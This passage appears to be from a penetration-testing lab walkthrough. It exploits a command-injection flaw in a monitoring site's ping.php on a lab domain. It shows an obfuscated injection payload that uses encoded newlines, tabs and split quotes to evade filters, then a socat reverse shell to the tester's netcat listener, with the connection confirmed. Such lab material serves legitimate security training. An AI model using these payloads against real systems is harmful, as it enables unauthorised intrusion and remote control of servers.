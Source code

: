 ![Firefox - Monitoring Subdomain Homepage](./assets/screenshots/attacking_enterprise_networks_external_testing_01.png)

```bash
%0a'w'hich%09socat
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'w'hich%09socat"

[SNIP]

/usr/bin/socat
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 8443

listening on [any] 8443 ...

[CONTINUE]
```

```bash
%0a's'ocat%09TCP4:10.10.14.204:8443%09EXEC:bash
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a's'ocat%09TCP4:10.10.14.204:8443%09EXEC:bash"
```

```
[CONTINUE]

connect to [10.10.14.204] from (UNKNOWN) [10.129.70.53] 37694
```
